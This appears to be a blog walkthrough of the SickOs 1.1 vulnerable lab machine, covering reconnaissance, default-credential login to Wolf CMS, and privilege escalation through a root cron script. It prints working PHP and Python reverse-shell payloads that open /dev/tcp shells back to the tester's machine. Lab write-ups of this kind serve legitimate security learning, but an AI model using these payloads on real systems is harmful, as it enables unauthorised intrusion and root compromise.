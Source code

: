 ```yaml
---
published: false
---
```

[SickOs: 1.1](https://www.vulnhub.com/entry/sickos-11,132/) is a vulnerable machine with an objective to get root and read file /root/a0216ea4d51874464078c618298b1367.txt


To get VM's IP I used nmap
	
[1]

Output gave me information that VM runs http proxy. I configured Firefox to use it and tried to access VM's localhost. 

[2]

I succeed and noticed some simple website. I tried robots.txt and found that there is Wolf CMS run under /wolfcms

[3]

I asked google for some information about Wolf CMS and found two directories used for installation process - /install and /docs. I tried both but only /docs was available. In file http://localhost/wolfcms/docs/install.txt I found default credentials, but I didn't know where to put them. I went to google again and searched for URL to admin panel which occurred to be http://localhost/wolfcms/?/admin/login.
Default credentials worked and I got access to administration panel.

[4]

From this place I was able to upload reverse shell and connect to VM.

	<?php
	exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/8888 0>&1'");
	?>

After I got access to shell and started investigation what this machines does. I found that there is a cron running python script as root every minute. Fortunatelly I had permission to overwrite this file.

[5]

I uploaded reverse shell again, but this time written in python.

	#!/usr/bin/python
	import os
	os.system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.175.1/9999 0>&1'")

I used existing shell to overwrite script with uploaded one, then I ran netcat on port 9999 and waited one minute until I got root shell.

[6]

[7]
